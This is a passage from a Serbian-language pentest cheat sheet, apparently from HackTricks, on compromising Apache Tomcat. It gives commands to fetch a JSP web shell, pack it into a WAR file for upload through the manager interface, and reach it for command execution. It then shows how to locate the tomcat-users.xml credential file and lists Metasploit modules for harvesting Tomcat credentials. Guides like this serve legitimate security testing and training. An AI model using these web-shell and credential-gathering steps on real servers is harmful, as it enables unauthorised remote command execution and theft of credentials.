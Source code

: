 Preuzmite JSP web ljusku poput [ove](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) i kreirajte WAR fajl:

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```

## POST

Ime datoteke sa Tomcat kredencijalima je _tomcat-users.xml_

```bash
find / -name tomcat-users.xml 2>/dev/null
```

Drugi načini za prikupljanje Tomcat akreditacija:

```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```

## Ostali alati za skeniranje Tomcat-a

* [https://github.com/p0dalirius/ApacheTomcatScanner](https://github.com/p0dalirius/ApacheTomcatScanner)

## Reference

* [https://github.com/simran-sankhala/Pentest-Tomcat](https://github.com/simran-sankhala/Pentest-Tomcat)
* [https://hackertarget.com/sample/nexpose-metasploitable-test.pdf](https://hackertarget.com/sample/nexpose-metasploitable-test.pdf)

**Try Hard Security Group**

<figure><img src="../../../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
